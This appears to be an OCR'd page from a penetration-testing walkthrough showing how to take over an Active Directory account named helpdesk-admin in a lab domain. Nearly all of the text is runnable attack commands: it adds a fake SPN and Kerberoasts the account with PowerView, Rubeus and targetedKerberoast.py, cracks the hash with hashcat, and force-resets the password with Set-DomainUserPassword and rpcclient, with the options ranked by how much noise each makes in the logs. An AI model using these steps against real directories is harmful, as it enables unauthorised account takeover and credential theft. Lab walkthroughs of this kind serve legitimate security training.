 **Exploitation Steps:**

**Option A: Kerberoasting (Recommended - Less Noisy)**

From Windows (as john.doe):
```powershell
# Import PowerView
Import-Module .\PowerView.ps1

# Add SPN to target user
Set-DomainObject -Identity helpdesk-admin -Set @{serviceprincipalname='HTTP/fake.corp.local'}

# Kerberoast the account
Rubeus.exe kerberoast /user:helpdesk-admin /nowrap

# Output:
$krb5tgs$23$*helpdesk-admin$corp.local$HTTP/fake.corp.local@corp.local*$HASH...

# Crack offline:
hashcat -m 13100 -a 0 hash.txt rockyou.txt --force
```

From Linux (as john.doe):
```bash
# Use targetedKerberoast.py
python3 targetedKerberoast.py -d corp.local -u 'john.doe' -p 'Password123' --target helpdesk-admin

# Crack the hash:
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

**Option B: Targeted Password Change (Noisier - Creates Event Log)**

From Windows:
```powershell
# Change password (will be logged)
$SecPassword = ConvertTo-SecureString 'NewPass123!' -AsPlainText -Force
Set-DomainUserPassword -Identity helpdesk-admin -AccountPassword $SecPassword

# Authenticate as helpdesk-admin:
runas /user:corp\helpdesk-admin cmd
# Enter: NewPass123!
```

From Linux:
```bash
# Use rpcclient to change password
rpcclient -U 'corp/john.doe%Password123' //192.168.1.10 -c "setuserinfo2 helpdesk-admin 23 'NewPass123!'"

# Verify:
crackmapexec smb 192.168.1.10 -u 'helpdesk-admin' -p 'NewPass123!' --shares
```

**✓ Result:** You now have credentials for helpdesk-admin

---